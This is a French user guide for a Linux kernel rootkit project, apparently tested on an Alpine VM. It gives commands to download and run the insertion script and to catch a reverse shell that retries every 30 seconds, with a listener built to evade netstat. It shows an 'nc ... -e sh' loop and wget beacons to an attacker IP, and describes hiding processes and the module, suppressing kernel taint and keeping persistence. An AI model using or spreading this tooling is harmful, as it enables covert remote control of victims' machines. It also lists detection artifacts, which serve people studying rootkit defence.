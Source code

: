 # Documentation Utilisateur

Exécuter le script de lancement de l’Alpine 

```c
./script_generate_alpine_LFS.sh
```

Se connecter à l'alpine avec les credentials `root:root`

Récupérer le script d’insertion et l’exécuter dans l'alpine

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script
chmod +x insertion_script
./insertion_script
```

Depuis la machine hôte 

```c
ip a
```

Renseigner l'IP de l'hôte au script d’insertion 

Un des processus de ce rootkit va envoyer un paquet réseau toutes les 30s.

Depuis la machine hôte on peut lancer un serveur python pour observer des logs provoqués par le rootkit :

```c
sudo python3 -m http.server 123
```

A l’insertion du module, on a : 

```c
"GET /START HTTP/1.1" 404 -
```

Toutes les 30s on a :

```c
"GET /UP HTTP/1.1" 404 -
```

Si un utilisateur sur l’alpine cherche à voir le processus qui déclenche ces logs, avec par exemple `ps`, `top`, ou un `ls` dans `/proc` le processus est kill puis relancé et on voit ce log : 

```c
"GET /RESTARTED_BECAUSE_SOMETHING_KILLED_ME HTTP/1.1" 404 -
```

Un processus du rootkit essaye d’établir un reverse shell toutes les 30s.

Depuis la machine hôte il est possible de lancer un reverse shell avec ce listener :

```c
sudo nc -lvnp 443
```

Attention lorsque la connection reverse shell est établie elle est visible via netstat depuis l’alpine, c’est pourquoi il est fourni un script python qui permet de kill la connection instantanément après avoir reçu une réponse de l’alpine.

```c
sudo python3 listener_discret.py "whoami"
```

L’utilisation de ce script python permet d’exécuter une commande sur l’alpine et de grandement diminuer les chances de se faire détecter par un netstat depuis l’alpine par rapport à la solution avec un listener classique de reverse shell. 

Il est possible de redémarrer l’alpine et le rootkit sera toujours en fonctionnement : 

```c
reboot
```

Lorsque le module est inséré, vous pouvez remarquer que : 

- pas de trace dans l’historique des commandes de l’insertion
- pas de log kernel “loading out of tree module taints the kernel”
- le kernel n’est pas tainted

```c
cat /proc/sys/kernel/tainted
0
```

- les processus réseaux initiés par le rootkit ne sont pas visible depuis l’alpine par un `ps` un `top` un `htop` ou plus généralement un parcours de `/proc`
- le module n’est pas visible avec `lsmod` et n’apparait pas dans `/proc/modules`

Néanmoins il est visible que :

- des kprobes sont enregistrées

```c
cbe2a877a075:~# cat /sys/kernel/debug/kprobes/list 
ffffffffad090094  k  __x64_sys_exit_group+0x4    [OPTIMIZED]
ffffffffad2b8674  k  __x64_sys_getdents64+0x4    [OPTIMIZED]
```

- Un kworker lié à notre rootkit est visible avec `ps`

```c
  626 root      0:00 [kworker/R-nfsio]
```

- les fichiers suivants, permettant la persistance de notre rootkit après un redémarrage (`reboot`), sont visibles et peuvent permettre de compromettre notre rootkit et l’IP de l’attaquant

```c
cbe2a877a075:~# cat /etc/modules
af_packet
ipv6
ipv4
```

```c
cbe2a877a075:~# ls /lib/modules/6.10.10/extra/
ipv4.ko
```

```c
cbe2a877a075:~# cat /etc/modprobe.d/ipv4.conf 
options ipv4 param=OGLPOHFPGKPOIN
```

Le paramètre param au dessus contient l’IP renseignée lors de l’insertion du script, mais chiffrée pour éviter de compromettre trop rapidement l’IP de l’attaquant.

- Il est possible de désactiver les kprobes avec :

```c
cbe2a877a075:~# echo 0 > /sys/kernel/debug/kprobes/enabled 
```

Ce qui désactive l’obfuscation de nos process.

Par exemple avec `ps` on voit désormais :

```c
  571 root      0:00 /bin/sh -c while true; do nc 192.168.95.170 443 -e sh; sle
  572 root      0:00 /bin/sh -c while true; do wget http://192.168.95.170:123/U
```

- les ports de destinations ont été choisis pour paraître habituels :
    - 443 pour le reverse shell (correspond habituellement au HTTPS)
    - 123 pour les paquets réseaux envoyés avec wget (correspond habituellement avec NTP)

- Dans le cas ou la persistance n’est pas nécessaire (serveur web n’ayant pas à être reboot), comme elle implique d’être facilement détectable à cause des 3 fichiers listés précédemment (`/etc/modules` par exemple) il existe un script d’insertion alternatif sans la persistance `insertion_script_without_persistence`

```c
wget https://raw.githubusercontent.com/gobelinor/Rootkit-Project/refs/heads/main/mesmodules/insert/insertion_script_without_persistence
chmod +x insertion_script
./insertion_script
```
